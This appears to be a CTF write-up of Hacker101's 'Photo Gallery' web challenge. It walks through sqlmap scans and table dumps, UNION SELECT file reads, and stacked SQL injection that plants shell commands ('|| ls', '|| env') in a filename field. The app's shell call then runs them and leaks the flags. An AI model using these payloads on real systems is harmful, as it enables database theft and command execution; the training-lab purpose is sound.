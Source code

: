 ```yaml
---
title: Hacker101 CTF Photo Gallery [moderate] writeup
subtitle: a write up for this web challenge
description: A write up for the Photo Gallery [moderae] challenge
published: true
datePublished: 1609676431536
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile.jpg
tags:
  - ctf
  - writeup
  - hackerone
  - hacker101
  - security
thumbnailPhoto: /hackerone/hackerone.png
bannerPhoto: /hackerone/hackerone.png
canonicalUrl:
---
```


# Photo Gallery _[moderate]_

This is my Write Up for the "Photo Gallery" challenge of HackerOne's CTF.

As usual we get a link to webpage, it seems to be an image gallery, but one of the images is broken.
The missing one is called `Invisible`, so lets look into that.

```
http://34.74.105.127/ad3e8c7df9/
```

![initial page](/hackerone/photogallery-start.png "initial page")

## Information gathering

with Burp we were able to find that the server returns no content for this image.
images are loaded with a `GET` Request to the server like so:

`GET /ad3e8c7df9/fetch?id=1 HTTP/1.1`

this also aligns with the first tip we are provided:

> Hint 1: _Consider how you might build this system yourself. What would the **query for fetch** look like?_

naturally we start fuzzing the `id` parameter.

```python
GET /ad3e8c7df9/fetch?id=4 HTTP/1.1 # 404
GET /ad3e8c7df9/fetch?id=0 HTTP/1.1 # 404
GET /ad3e8c7df9/fetch?id=-1 HTTP/1.1 # 500
```

alright, no quick wins, so let's give it a try with fizzing using sqlmap.
Quickly we are able to see that the server seems to be vulnerable to some attack.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=2"
```

This command runs for quite a while and will try to find vulnerabilities in the fetch endpoint.
when we are done we should know what to do next.

## Gathered Data

### sqlmap identified the following injection point(s) with a total of 311 HTTP(s) requests:

```python
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: id=2 AND 3567=3567

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=2 AND (SELECT 8480 FROM (SELECT(SLEEP(5)))KHRS)
```

```python
[21:44:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

### Our Target Server:

    | Type      | Service      | Version                  | Vulnerable?    |
    | --------- | ------------ | ------------------------ | -------------- |
    | OS        | Linux Ubuntu | ??                       | not focused    |
    | Webserver | Nginx        | 1.14.0                   | no             |
    | Database  | MySQL        | >= 5.0.12 (MariaDB fork) | yes (id param) |

Good, we got something, we know the server is vulnerable to multiple vulnerabilities such as a 'boolean base blind'. We also found the Webserver is Nginx v1.14.0, which sadly has no usable vulnerabilities here. But with us now knowing the exact os and DB System used lets run sqlmap again with that info and see what we get.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=2" -f --os=linux --dbms=mysql --level=3 -o
```

we dont really get any more useful information from here.
soo.. were kinda stuck lets just get another hint then:

> Hint 2: _Take a few minutes to consider the **state of the union**_

The state uf the union? are they hinting on using UNION statements in the query?
_The UNION operator is used to combine the result-set of two or more SELECT statements._
That seems like somethng we can make use of, so lets try and combine our query statements f.e. like this:

`http://34.74.105.127/ad3e8c7df9/fetch?id=2 UNION SELECT 'something'`

but what do we look for? Lets get another hint.

> Hint 3: _This application runs on the **uwsgi-nginx-flask-docker** image_

uwsgi-nginx? hmm havent heard of that, but sems to be some kind of portable all in one flask. lets look for the docs.

https://uwsgi-docs.readthedocs.io/en/latest/Configuration.html#ini-files

> uWSGI can be configured using several different methods.

YAML, JSON, INI are some supported formats -> ini beeing the defualt so lets try getting the 'uwsgi.ini' file?

![union select wiht burp repeater](/hackerone/union-select-ini.png "union select wiht burp repeater")

this returns us some configdata pointing to module main which is the entrypoint.

```python
[uwsgi]
module = main
callable = app
```

so lets see if we can also fethc the main.py

```python
http://35.190.155.168/c947e97f6e/fetch?id=4%20UNION%20SELECT%20%27main.py%27--
```

Here we get lots of infos our **first FLAG** and the db connection settings:

### FLAG 0:

```python
%s
' % (pid, sanitize(ptitle)) fns.append(pfn) rep += 'Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '' rep += '
\n' return home.replace('$ALBUMS$', rep) @app.route('/fetch') def fetch(): cur = getDb().cursor() if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0: abort(404)
# It's dangerous to go alone, take this: # ^FLAG^9e6d57c394c129??????????????????????????????f74dbf2faa0abd571b32c7$FLAG$ return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read() if __name__ == "__main__": app.run(host='0.0.0.0', port=80)
```

`return MySQLdb.connect(host="localhost", user="root", password="", db="level5")`

we also see that they are using the photos table

`cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))`

lets try to fuzz that with sqlmap, since we now know the DB and tables info we can launch a targeted attack.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=1" --method=GET --dump -D level5 -T photos -p id, --code=200 --ignore-code=500 --skip-waf -o --threads 2
```

This can take quite a while.. for me it crashed after 40 minutes, so i gave it another go with just focusing on the column `filename` since, here is the value we need.we do this by adding the -C parameter, i also increased the thradcount to 4 to try and get faster results. I also changed the url to contain id=3 since this is the id we want to get the info from.

```python
sqlmap -u "http://35.190.155.168/c947e97f6e/fetch?id=3" --method=GET --dump -D level5 -T photos -p id, --code=200 --ignore-code=500 --skip-waf -o --threads 4 -C filename
```

This means that sqlmap will start with the filename of id=3 which is exactly what we want right now.

![starts to query filename of id 3](/hackerone/photo-gallery-hash.png "query on the filename of id 3")
So lets have a look at our results:

```python
Database: level5
Table: photos
[3 entries]
+------------------------------------------------------------------+
| filename |
+------------------------------------------------------------------+
| 9ef8fc5da15625db993f1c8e120beafc6873d801a804670b9497ecc782ca11fa |
| files/adorable.jpg |
| files/purrfect.jpg |
+------------------------------------------------------------------+
```

> you might be getting partial values like so:
> `9ef8fc5di15625db993f1c8e120beafc6873d801a804670?????????????????`
> you should be able to re-run sqlmap to find the missing characters
> `9ef8fc5da15625db993f1c8e120beafc6873d801a804670b9497ecc782ca11fa`

decrypted: `\*||+ls+-a+tmp.txt`
another file! nice lets try and get that with a UNION STATEMENT request like so:

`GET /ad3e8c7df9/fetch?id=4 UNION SELECT 'tmp.txt'-- HTTP/1.1`
hmm no luck it seems... let's do it another way.

From our previous findings we know that files are in the 'files' directory and that we can run sql statements on the id param. So we want to try to move the file or its contents so we can access it. We also got a new hint of using ls output to find temp file.

We want to run following statements via the vulnerable param:

#### ls in the /files directory and store data in bigWin.txt

`update photos set filename='* || ls ./files >bigWin.txt ' where id=3; commit;`

`GET /ad3e8c7df9/fetch?id=1;%20update%20photos%20set%20filename=%27\*%20||%20ls%20./files%20%3EbigWin.txt%20%27%20where%20id=3;%20commit;%20-- HTTP/1.1`

#### store all env data in bigWin.txt (because so often flags are here)

`update photos set filename='* || env >bigWin.txt' where id=3; commit;`

`GET /ad3e8c7df9/fetch?id=1;%20update%20photos%20set%20filename%3D%27*%20%7C%7C%20env%20%3Etmp.txt%27%20where%20id%3D3%3B%20commit%3B%20-- HTTP/1.1`

after you succsessfully ran those you should be able to run the union select again to get ahold of bigWin.txt!

`GET /ad3e8c7df9/fetch?id=4 UNION SELECT 'bigWin.txt'-- HTTP/1.1`

Tadaa!! we got it all.

```bash
"^FLAG^9ef8fc5da15????????????????????????????????????????????782ca11fa$FLAG$"
"^FLAG^63a407d0083????????????????????????????????????????????4564ee9f2$FLAG$"
HOSTNAME=ad3e8c7df92d
SHLVL=0
```
